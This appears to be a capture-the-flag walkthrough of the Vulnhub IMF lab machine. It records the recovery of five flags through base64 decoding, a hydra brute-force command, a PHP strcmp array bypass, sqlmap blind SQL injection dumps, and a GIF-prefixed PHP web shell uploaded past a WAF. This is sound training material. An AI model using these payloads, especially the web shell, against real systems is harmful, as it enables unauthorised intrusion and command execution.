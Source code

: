 On the contact us page we get 3 emails:
```
rmichaels@imf.local -> Director
akeith@imf.local -> deputy Director
estone@imf.local -> chief of staff
```
***
### Flag 1
While checking the source code of this page we get the first flag:
`flag1{YWxsdGhlZmlsZXM=}`
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230715233303.png]]
the flag itself was base64 encoded said: `allthefiles`
*** 
### Flag 2
from the hist above:
we also get the second flag by decoding the names of the js files :
http://192.168.29.156/js/eVlYUnZjZz09fQ==.min.js -> 3
http://192.168.29.156/js/XUnRhVzVwYzNS.js -> 2
http://192.168.29.156/js/ZmxhZzJ7YVcxbVl.js -> 1
combining then we get the flag:
`flag2{aW1mYWRtaW5pc3RyYXRvcg==}` , hint: `imfadministrator`
***
## Flag 3
After a bit of finding , I thought maybe it was an endpoint and it was leading to a login page:
Ofcourse admin:admin didn't work:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230716000606.png]]

This was the source code:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230716000535.png]]

SQL injection maybe? but code said password is hard-coded , also error said 'invalid username' so username enum?
let's make the list:
```
roger
alexander
elizabeth
admin
imfadmin
rmichaels
akeith
estone
rmichaels@imf.local
akeith@imf.local
estone@imf.local
```

Nothing worked so I tried to automate the things , I used hydra to do so the command and the wordlists for the username and passwords are below:
```
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -s 80 -f http-get://192.168.90.184/imfadministrator
```
`seclists's Names/names.txt` and `rockyou.txt` for password
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723231130.png]]
got: `aaliyah` and `123456`
That didn't work so I tried something different:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723231502.png]]
look how for the same username but different , something wasn't right so I tried some username that they won't give:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723231904.png]]
I'm telling y'all this so that you might see that this is what happens and people get stuck for hours
This is due to the fact that it loads the site with 200 but gives error text not response
So I used Burp:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723233008.png]]
I also tried brtfrcing the password , nothing worked , so I tried directory enum on this endpoint:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723234956.png]]
I also looked at the source code again , this had my curiosity:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230723235128.png]]
If it doesn't say anything about password , just invalid username and all , then why it is taking the password as 'pass'
Maybe in the back-end they mean by hardcoded is the password is already set and they are comparing the pass string we give to the already set so maybe we have to deal with this function that compares the string? we can only guess...so maybe bypassing the strcmp function:
In the strcmp description by php we get this guy at last telling about the behaviour of the function:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725154610.png]]
We need to make sure that the pass array is empty so we can do this via two ways:
* way 1: burp intruder:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725161220.png]]

* way 2 : via `array('')` :
just paste the above payload in password field
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725161112.png]]
`flag3{Y29udGludWVUT2Ntcw==}`
***
## Flag 4
hint: continueTOcms
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725161421.png]]
Disallowed list:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725161444.png]]
Upload:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725161707.png]]
I tried this image , analyzed it and via exif tool I got this:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725162013.png]]
after using the -b flag:
and strings command we get:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725162740.png]]
inside the cms , pagename parameter:
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725165735.png]]
when we make the sqlmap to make sure:
we have to supply our session id or else it'll reject:
```
sqlmap --url http://192.168.90.184/imfadministrator/cms.php?pagename=disavowlist --cookie='PHPSESSID=9rn93n6m80d9hbtk2c6rkc0o75'
```

![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725172337.png]]
we can do this manually :
`' AND '1'='1`
it's blind so we'll have to use sqlmap:
and via that we can find the tables via --tables options and dump them via:
```
sqlmap --url http://192.168.90.184/imfadministrator/cms.php?pagename=disavowlist --cookie='PHPSESSID=9rn93n6m80d9hbtk2c6rkc0o75' --dump -T pages 
```
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725174023.png]]
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230725174110.png]]
scan the QR and find the flag `flag4{dXBsb2Fkcjk0Mi5waHA=}`
decode it and we get: `uploadr942.php`

When we go to this page we see this upload functionality:

![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230726183026.png]]
We need to fool the WAF by passing it in the GIF format via adding the GIF98 in the start:
```
GIF98
<?php $c=$_GET['cmd']; echo `$c`;?>
```

![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230726183136.png]]
`flag5{YWdlbnRzZXJ2aWNlcw==}`
![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230726183826.png]]
agentservices

![[walkthroughs/Vulnhub/IMF*/IMG/Pasted image 20230805171749.png]]
		
